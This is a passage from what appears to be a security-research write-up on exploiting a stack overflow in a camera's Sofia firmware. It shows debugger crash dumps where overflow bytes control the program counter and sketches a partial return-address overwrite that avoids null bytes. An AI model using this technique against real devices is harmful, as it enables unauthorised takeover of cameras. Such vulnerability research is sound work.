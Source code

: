 ```
$sp  : 0xb2cb00b0  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
$lr  : 0x00081280  →   movs r3,  r0
$pc  : 0x61616160 ("`aaa"?)
$cpsr: [negative ZERO CARRY overflow interrupt fast THUMB]
```

# Trying (and Failing) to Port Exploits

Now that we have some working bugs and no canaries, getting code execution within Sofia should be a piece of cake (famous last words)! Lets exploit a stack overflow that was not exploitable on the old camera. 

I went with the stack overflow in the handler for *0x43a*, here is the crash for that now that we do not have to worry about canaries:

```
Thread 40 "NetIPManager" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 601.706]
0x61616160 in ?? ()

$r0  : 0xb2d3a468  →  0x00c9c8ec  →  0x00c9c818  →  0x00c9ca20  →  0x00000000
$r1  : 0x1       
$r2  : 0x8b7c881d
$r3  : 0x8b7c881d
$r4  : 0x61616161 ("aaaa"?)
$r5  : 0x61616161 ("aaaa"?)
$r6  : 0x61616161 ("aaaa"?)
$r7  : 0x00029a2c  →   eors r0,  r6
$r8  : 0xb2d3a778  →  0x00000000
$r9  : 0x0       
$r10 : 0xb2d3ab00  →  0x0000000b
$r11 : 0x00f3ca98  →  0x00000001
$r12 : 0xb6f1eecc  →  0x8b7c881d
$sp  : 0xb2d3a5e8  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
$lr  : 0x0       
$pc  : 0x61616160 ("`aaa"?)
$cpsr: [negative ZERO CARRY overflow interrupt fast THUMB]
```

As a quick refresher, we are exploiting the **memcpy** overflow in this snippet:

![chosen_overflow.png](/assets/images/video_call_camera_p6/chosen_overflow.png)

Due the the **strchr** which searches for the '.' character, and the fact this is used to calculate how much to overflow, we need to ensure there are no null characters in our payload. It should be possible to overwrite the first 3 bytes of the address loaded into *pc*, and point it to jump elsewhere without requiring a memory leak.
